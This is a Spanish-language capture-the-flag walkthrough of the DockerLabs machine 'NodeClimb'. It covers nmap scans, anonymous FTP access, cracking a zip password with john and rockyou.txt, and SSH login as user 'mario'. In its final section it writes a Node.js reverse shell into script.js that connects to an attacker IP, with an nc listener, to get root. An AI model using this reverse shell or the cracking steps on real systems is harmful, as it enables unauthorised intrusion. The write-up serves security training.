# NodeClimb
DockerLab - Machine



## Reconocimiento


## Escaneo y enumeración

Ahora podemos revisar que contiene la máquina usando nmap y el siguiente script.

Al realizar un escaneo con Nmap, podemos usar el siguiente comando:
```
nmap -sV --script vuln --host-timeout 2500 -oN scan_v2_172.17.0.2.txt 172.17.0.2
```

Obtenemos el siguiete resultado, como podemos ver nos eentrega bastante información, pero no muy útil.
```
# Nmap 7.94SVN scan initiated Tue Aug 20 11:56:43 2024 as: nmap -sV --script vuln --host-timeout 2500 -oN scan_v2_172.17.0.2.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:9.2p1: 
|     	95499236-C9FE-56A6-9D7D-E943A24B633A	10.0	https://vulners.com/githubexploit/95499236-C9FE-56A6-9D7D-E943A24B633A	*EXPLOIT*
|     	2C119FFA-ECE0-5E14-A4A4-354A2C38071A	10.0	https://vulners.com/githubexploit/2C119FFA-ECE0-5E14-A4A4-354A2C38071A	*EXPLOIT*
|     	CVE-2023-38408	9.8	https://vulners.com/cve/CVE-2023-38408
|     	CVE-2023-28531	9.8	https://vulners.com/cve/CVE-2023-28531
|     	B8190CDB-3EB9-5631-9828-8064A1575B23	9.8	https://vulners.com/githubexploit/B8190CDB-3EB9-5631-9828-8064A1575B23	*EXPLOIT*
|     	8FC9C5AB-3968-5F3C-825E-E8DB5379A623	9.8	https://vulners.com/githubexploit/8FC9C5AB-3968-5F3C-825E-E8DB5379A623	*EXPLOIT*
|     	8AD01159-548E-546E-AA87-2DE89F3927EC	9.8	https://vulners.com/githubexploit/8AD01159-548E-546E-AA87-2DE89F3927EC	*EXPLOIT*
|     	5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A	9.8	https://vulners.com/githubexploit/5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A	*EXPLOIT*
|     	33D623F7-98E0-5F75-80FA-81AA666D1340	9.8	https://vulners.com/githubexploit/33D623F7-98E0-5F75-80FA-81AA666D1340	*EXPLOIT*
|     	PACKETSTORM:179290	8.1	https://vulners.com/packetstorm/PACKETSTORM:179290	*EXPLOIT*
|     	FB2E9ED1-43D7-585C-A197-0D6628B20134	8.1	https://vulners.com/githubexploit/FB2E9ED1-43D7-585C-A197-0D6628B20134	*EXPLOIT*
|     	FA3992CE-9C4C-5350-8134-177126E0BD3F	8.1	https://vulners.com/githubexploit/FA3992CE-9C4C-5350-8134-177126E0BD3F	*EXPLOIT*
|     	F8981437-1287-5B69-93F1-657DFB1DCE59	8.1	https://vulners.com/githubexploit/F8981437-1287-5B69-93F1-657DFB1DCE59	*EXPLOIT*
|     	F58A5CB2-2174-586F-9CA9-4C47F8F38B5E	8.1	https://vulners.com/githubexploit/F58A5CB2-2174-586F-9CA9-4C47F8F38B5E	*EXPLOIT*
|     	EC20B9C2-6857-5848-848A-A9F430D13EEB	8.1	https://vulners.com/githubexploit/EC20B9C2-6857-5848-848A-A9F430D13EEB	*EXPLOIT*
|     	EB13CBD6-BC93-5F14-A210-AC0B5A1D8572	8.1	https://vulners.com/githubexploit/EB13CBD6-BC93-5F14-A210-AC0B5A1D8572	*EXPLOIT*
|     	E660E1AF-7A87-57E2-AEEF-CA14E1FEF7CD	8.1	https://vulners.com/githubexploit/E660E1AF-7A87-57E2-AEEF-CA14E1FEF7CD	*EXPLOIT*
|     	E543E274-C20A-582A-8F8E-F8E3F381C345	8.1	https://vulners.com/githubexploit/E543E274-C20A-582A-8F8E-F8E3F381C345	*EXPLOIT*
|     	E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257	8.1	https://vulners.com/githubexploit/E34FCCEC-226E-5A46-9B1C-BCD6EF7D3257	*EXPLOIT*
|     	E24EEC0A-40F7-5BBC-9E4D-7B13522FF915	8.1	https://vulners.com/githubexploit/E24EEC0A-40F7-5BBC-9E4D-7B13522FF915	*EXPLOIT*
|     	DC798E98-BA77-5F86-9C16-0CF8CD540EBB	8.1	https://vulners.com/githubexploit/DC798E98-BA77-5F86-9C16-0CF8CD540EBB	*EXPLOIT*
|     	DC473885-F54C-5F76-BAFD-0175E4A90C1D	8.1	https://vulners.com/githubexploit/DC473885-F54C-5F76-BAFD-0175E4A90C1D	*EXPLOIT*
|     	D85F08E9-DB96-55E9-8DD2-22F01980F360	8.1	https://vulners.com/githubexploit/D85F08E9-DB96-55E9-8DD2-22F01980F360	*EXPLOIT*
|     	D572250A-BE94-501D-90C4-14A6C9C0AC47	8.1	https://vulners.com/githubexploit/D572250A-BE94-501D-90C4-14A6C9C0AC47	*EXPLOIT*
|     	D1E049F1-393E-552D-80D1-675022B26911	8.1	https://vulners.com/githubexploit/D1E049F1-393E-552D-80D1-675022B26911	*EXPLOIT*
|     	CVE-2024-6387	8.1	https://vulners.com/cve/CVE-2024-6387
|     	CFEBF7AF-651A-5302-80B8-F8146D5B33A6	8.1	https://vulners.com/githubexploit/CFEBF7AF-651A-5302-80B8-F8146D5B33A6	*EXPLOIT*
|     	CF80DDA9-42E7-5E06-8DA8-84C72658E191	8.1	https://vulners.com/githubexploit/CF80DDA9-42E7-5E06-8DA8-84C72658E191	*EXPLOIT*
|     	C6FB6D50-F71D-5870-B671-D6A09A95627F	8.1	https://vulners.com/githubexploit/C6FB6D50-F71D-5870-B671-D6A09A95627F	*EXPLOIT*
|     	C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0	8.1	https://vulners.com/githubexploit/C5B2D4A1-8C3B-5FF7-B620-EDE207B027A0	*EXPLOIT*
|     	C185263E-3E67-5550-B9C0-AB9C15351960	8.1	https://vulners.com/githubexploit/C185263E-3E67-5550-B9C0-AB9C15351960	*EXPLOIT*
|     	BDA609DA-6936-50DC-A325-19FE2CC68562	8.1	https://vulners.com/githubexploit/BDA609DA-6936-50DC-A325-19FE2CC68562	*EXPLOIT*
|     	AA539633-36A9-53BC-97E8-19BC0E4E8D37	8.1	https://vulners.com/githubexploit/AA539633-36A9-53BC-97E8-19BC0E4E8D37	*EXPLOIT*
|     	A377249D-3C48-56C9-98D6-C47013B3A043	8.1	https://vulners.com/githubexploit/A377249D-3C48-56C9-98D6-C47013B3A043	*EXPLOIT*
|     	9CDFE38D-80E9-55D4-A7A8-D5C20821303E	8.1	https://vulners.com/githubexploit/9CDFE38D-80E9-55D4-A7A8-D5C20821303E	*EXPLOIT*
|     	9A6454E9-662A-5A75-8261-73F46290FC3C	8.1	https://vulners.com/githubexploit/9A6454E9-662A-5A75-8261-73F46290FC3C	*EXPLOIT*
|     	92254168-3B26-54C9-B9BE-B4B7563586B5	8.1	https://vulners.com/githubexploit/92254168-3B26-54C9-B9BE-B4B7563586B5	*EXPLOIT*
|     	91752937-D1C1-5913-A96F-72F8B8AB4280	8.1	https://vulners.com/githubexploit/91752937-D1C1-5913-A96F-72F8B8AB4280	*EXPLOIT*
|     	906CD901-3758-5F2C-8FA6-386BF9378AB3	8.1	https://vulners.com/githubexploit/906CD901-3758-5F2C-8FA6-386BF9378AB3	*EXPLOIT*
|     	896B5857-A9C8-5342-934A-74F1EA1934CF	8.1	https://vulners.com/githubexploit/896B5857-A9C8-5342-934A-74F1EA1934CF	*EXPLOIT*
|     	81F0C05A-8650-5DE8-97E9-0D89F1807E5D	8.1	https://vulners.com/githubexploit/81F0C05A-8650-5DE8-97E9-0D89F1807E5D	*EXPLOIT*
|     	7C7167AF-E780-5506-BEFA-02E5362E8E48	8.1	https://vulners.com/githubexploit/7C7167AF-E780-5506-BEFA-02E5362E8E48	*EXPLOIT*
|     	7AA8980D-D89F-57EB-BFD1-18ED3AB1A7DD	8.1	https://vulners.com/githubexploit/7AA8980D-D89F-57EB-BFD1-18ED3AB1A7DD	*EXPLOIT*
|     	79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC	8.1	https://vulners.com/githubexploit/79FE1ED7-EB3D-5978-A12E-AAB1FFECCCAC	*EXPLOIT*
|     	795762E3-BAB4-54C6-B677-83B0ACC2B163	8.1	https://vulners.com/githubexploit/795762E3-BAB4-54C6-B677-83B0ACC2B163	*EXPLOIT*
|     	77DAD6A9-8142-5591-8605-C5DADE4EE744	8.1	https://vulners.com/githubexploit/77DAD6A9-8142-5591-8605-C5DADE4EE744	*EXPLOIT*
|     	743E5025-3BB8-5EC4-AC44-2AA679730661	8.1	https://vulners.com/githubexploit/743E5025-3BB8-5EC4-AC44-2AA679730661	*EXPLOIT*
|     	73A19EF9-346D-5B2B-9792-05D9FE3414E2	8.1	https://vulners.com/githubexploit/73A19EF9-346D-5B2B-9792-05D9FE3414E2	*EXPLOIT*
|     	6FD8F914-B663-533D-8866-23313FD37804	8.1	https://vulners.com/githubexploit/6FD8F914-B663-533D-8866-23313FD37804	*EXPLOIT*
|     	6E81EAE5-2156-5ACB-9046-D792C7FAF698	8.1	https://vulners.com/githubexploit/6E81EAE5-2156-5ACB-9046-D792C7FAF698	*EXPLOIT*
|     	6B78D204-22B0-5D11-8A0C-6313958B473F	8.1	https://vulners.com/githubexploit/6B78D204-22B0-5D11-8A0C-6313958B473F	*EXPLOIT*
|     	649197A2-0224-5B5C-9C4E-B5791D42A9FB	8.1	https://vulners.com/githubexploit/649197A2-0224-5B5C-9C4E-B5791D42A9FB	*EXPLOIT*
|     	608FA50C-AEA1-5A83-8297-A15FC7D32A7C	8.1	https://vulners.com/githubexploit/608FA50C-AEA1-5A83-8297-A15FC7D32A7C	*EXPLOIT*
|     	5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E	8.1	https://vulners.com/githubexploit/5D2CB1F8-DC04-5545-8BC7-29EE3DA8890E	*EXPLOIT*
|     	5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD	8.1	https://vulners.com/githubexploit/5C81C5C1-22D4-55B3-B843-5A9A60AAB6FD	*EXPLOIT*
|     	56F97BB2-3DF6-5588-82AF-1D7B77F9AD45	8.1	https://vulners.com/githubexploit/56F97BB2-3DF6-5588-82AF-1D7B77F9AD45	*EXPLOIT*
|     	53BCD84F-BD22-5C9D-95B6-4B83627AB37F	8.1	https://vulners.com/githubexploit/53BCD84F-BD22-5C9D-95B6-4B83627AB37F	*EXPLOIT*
|     	535C5505-40BC-5D18-B346-1FDF036F0B08	8.1	https://vulners.com/githubexploit/535C5505-40BC-5D18-B346-1FDF036F0B08	*EXPLOIT*
|     	48603E8F-B170-57EE-85B9-67A7D9504891	8.1	https://vulners.com/githubexploit/48603E8F-B170-57EE-85B9-67A7D9504891	*EXPLOIT*
|     	4748B283-C2F6-5924-8241-342F98EEC2EE	8.1	https://vulners.com/githubexploit/4748B283-C2F6-5924-8241-342F98EEC2EE	*EXPLOIT*
|     	452ADB71-199C-561E-B949-FCDE6288B925	8.1	https://vulners.com/githubexploit/452ADB71-199C-561E-B949-FCDE6288B925	*EXPLOIT*
|     	418FD78F-82D2-5748-9EE9-CAFC34111864	8.1	https://vulners.com/githubexploit/418FD78F-82D2-5748-9EE9-CAFC34111864	*EXPLOIT*
|     	3D426DCE-96C7-5F01-B0AB-4B11C9557441	8.1	https://vulners.com/githubexploit/3D426DCE-96C7-5F01-B0AB-4B11C9557441	*EXPLOIT*
|     	31CC906F-9328-5944-B370-FBD98DF0DDD3	8.1	https://vulners.com/githubexploit/31CC906F-9328-5944-B370-FBD98DF0DDD3	*EXPLOIT*
|     	2FFB4379-2BD1-569F-9F38-1B6D272234C9	8.1	https://vulners.com/githubexploit/2FFB4379-2BD1-569F-9F38-1B6D272234C9	*EXPLOIT*
|     	1FFDA397-F480-5C74-90F3-060E1FE11B2E	8.1	https://vulners.com/githubexploit/1FFDA397-F480-5C74-90F3-060E1FE11B2E	*EXPLOIT*
|     	1F7A6000-9E6D-511C-B0F6-7CADB7200761	8.1	https://vulners.com/githubexploit/1F7A6000-9E6D-511C-B0F6-7CADB7200761	*EXPLOIT*
|     	1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99	8.1	https://vulners.com/githubexploit/1CF00BB8-B891-5347-A2DC-2C6A6BFF7C99	*EXPLOIT*
|     	1AB9F1F4-9798-59A0-9213-1D907E81E7F6	8.1	https://vulners.com/githubexploit/1AB9F1F4-9798-59A0-9213-1D907E81E7F6	*EXPLOIT*
|     	1A779279-F527-5C29-A64D-94AAA4ADD6FD	8.1	https://vulners.com/githubexploit/1A779279-F527-5C29-A64D-94AAA4ADD6FD	*EXPLOIT*
|     	15C36683-070A-5CC1-B21F-5F0BF974D9D3	8.1	https://vulners.com/githubexploit/15C36683-070A-5CC1-B21F-5F0BF974D9D3	*EXPLOIT*
|     	1337DAY-ID-39674	8.1	https://vulners.com/zdt/1337DAY-ID-39674	*EXPLOIT*
|     	11F020AC-F907-5606-8805-0516E06160EE	8.1	https://vulners.com/githubexploit/11F020AC-F907-5606-8805-0516E06160EE	*EXPLOIT*
|     	108E1D25-1F7E-534C-97CD-3F6045E32B98	8.1	https://vulners.com/githubexploit/108E1D25-1F7E-534C-97CD-3F6045E32B98	*EXPLOIT*
|     	0FC4BE81-312B-51F4-9D9B-66D8B5C093CD	8.1	https://vulners.com/githubexploit/0FC4BE81-312B-51F4-9D9B-66D8B5C093CD	*EXPLOIT*
|     	0F9B3655-C7D4-55A9-8EB5-2EAD9CEAB180	8.1	https://vulners.com/githubexploit/0F9B3655-C7D4-55A9-8EB5-2EAD9CEAB180	*EXPLOIT*
|     	0E9294FD-6B44-503A-84C2-C6E76E53B0B7	8.1	https://vulners.com/githubexploit/0E9294FD-6B44-503A-84C2-C6E76E53B0B7	*EXPLOIT*
|     	0A8CA57C-ED38-5301-A03A-C841BD3082EC	8.1	https://vulners.com/githubexploit/0A8CA57C-ED38-5301-A03A-C841BD3082EC	*EXPLOIT*
|     	SSV:92579	7.5	https://vulners.com/seebug/SSV:92579	*EXPLOIT*
|     	PACKETSTORM:173661	7.5	https://vulners.com/packetstorm/PACKETSTORM:173661	*EXPLOIT*
|     	F0979183-AE88-53B4-86CF-3AF0523F3807	7.5	https://vulners.com/githubexploit/F0979183-AE88-53B4-86CF-3AF0523F3807	*EXPLOIT*
|     	1337DAY-ID-26576	7.5	https://vulners.com/zdt/1337DAY-ID-26576	*EXPLOIT*
|     	CVE-2023-51385	6.5	https://vulners.com/cve/CVE-2023-51385
|     	CVE-2023-48795	5.9	https://vulners.com/cve/CVE-2023-48795
|     	CVE-2023-51384	5.5	https://vulners.com/cve/CVE-2023-51384
|     	PACKETSTORM:140261	0.0	https://vulners.com/packetstorm/PACKETSTORM:140261	*EXPLOIT*
|     	5C971D4B-2DD3-5894-9EC2-DAB952B4740D	0.0	https://vulners.com/githubexploit/5C971D4B-2DD3-5894-9EC2-DAB952B4740D	*EXPLOIT*
|_    	39E70D1A-F5D8-59D5-A0CF-E73D9BAA3118	0.0	https://vulners.com/githubexploit/39E70D1A-F5D8-59D5-A0CF-E73D9BAA3118	*EXPLOIT*
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 20 11:56:58 2024 -- 1 IP address (1 host up) scanned in 14.72 seconds

```

Debemos modifcar un poco el comando de Nmap para revisar que tenemos dentro de la máquina. Ahora usamos el siguiente script:
```
nmap -sV -sCV -p21,22 --host-timeout 2500 -oN scan_v3_172.17.0.2.txt 172.17.0.2
```

Obtenemos el siguiente resultado del escaneo:
```
# Nmap 7.94SVN scan initiated Tue Aug 20 12:03:45 2024 as: nmap -sV -sCV -p21,22 --host-timeout 2500 -oN scan_v3_172.17.0.2.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000061s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05 09:34 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 20 12:03:46 2024 -- 1 IP address (1 host up) scanned in 1.07 seconds

```

Aquí podemos ver que dentro del resultado, hay un servicio dentro del puerto 21(TCP) que es del servicio FTP, y en donde lo llamativo es que es de Acceso Anónimo ("Anonymous - inglés").

### Revisión del Pueto 21, servicio de FTP
Podemos ver que dentro del acceso, vía FTP encontramos el archivo "secretitopicaron.zip"



Al tratar de abrir el archivo, podemos ver que está asegurdado por contraseña.

### Abrir el archivo con contraseña (https://www.kali.org/tools/john/#zip2john)
Una forma de acceder al archivo comprimido y protegido por contraseña, es usando un paquete de John, llamado "zip2john", de esta manera transformamos el archivo zip a hash.

```
zip2john secretitopicaron.zip > secretohash
```
Una vez, ya teniendo el archivo hash, procedemos a crackearlo con usando john y el arhivo: '/usr/share/wordlists/rockyou.txt'.
```
john --format=PKZIP -w /usr/share/wordlists/rockyou.txt secretohash
```

El resultado obtenido es:
```
john --format=PKZIP -w /usr/share/wordlists/rockyou.txt secretohash
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2024-08-16 18:19) 20.00g/s 70920p/s 70920c/s 70920C/s 123456..sss
Use the --show option to display all of the cracked passwords reliably
Session completed. 
```

Como se ve en el script anterior, la contraseña del archivo comprimido es 'password1'



En este únto podemos revisar el contenido del archivo plano "password.txt", donde vemos una contraseña para el usuario "mario".



### Acceso por SSH (puerto 22)
Ya hemos encontrado que tenemos un usuario anónimo para ingresar por FTP. Pero ahora, podemos revisar si el usuario encontrado "mario", puede ayudarnos a ingresar vía SSH.



El resultado entregado por la terminal, de acceso a SSH, vemos que no tenemos permisos elevados dentro de la máquina.

## Ganar Acceso
Para ganar acceso. debemos ver que contiene la máquina.



Se puede ver que contiene un archivo script.js. El archivo en cuestión no posee contenido, es un archivo vacío. pero tal vez, podamos hacer algo, si es que podemos ejecutar con NodeJs o algo similar. Debemos revisar que contiene la máquiana instalada.



Viendo el listado de contenidos del directorio Bin, podemos ver que está instalado el paquete nodeJs enlazado a node.



### Ganado acceso ví revershell
Para tratar de ganar acceso a la máquina podemos hacer uso del archivo script.js e insertar dentro de este archivo un algoritmo reverso, para este propósito podemos consultar en www.revshells.com y configurar las siguientes opciones "node.js#2 -OS linux"

```
(function(){     var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("sh", []);
var client = new net.Socket();
client.connect(1111, "10.0.2.15", function(){         
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; 
    })();'
```

Debemos insertar este script reverso de node, dentro del archivo script.js. Antes de hacer esto, debemos configurar una ip y puerto dentro del algoritmo generado. Todo esto lo podemos realizar de la siguiente manera dentro de la terminal (recordar que la IP y puerto, son de la máquina atacante):

```
echo '(function(){     var net = require("net"),         cp = require("child_process"),         sh = cp.spawn("sh", []);     var client = new net.Socket();     client.connect(1111, "10.0.2.15", function(){         client.pipe(sh.stdin);         sh.stdout.pipe(client);         sh.stderr.pipe(client);     });     return /a/; })();' > script.js

```

Hecho lo anterior, aún no basta para que funcione el algoritmo reverso, debemos volver a nuestra máquina kali y dejar un puerto a la escucha de lo enviado por el script reverso. Basta con usar el siguiente comando:

```
sudo nc -lnvp 1111
```
Podemos ver que al ajecutarlo, queda a la espera de comunicación.



Ahora ejecutamos el algoritmo dentro de la máquina NodeClimb, y quedamos a la espera de la comunicación dentro de la máquina atacnate.



Si todo resulta bien, debemos poder llegar a la máquina NodeClimb con el usuario root.



Gracias por leer.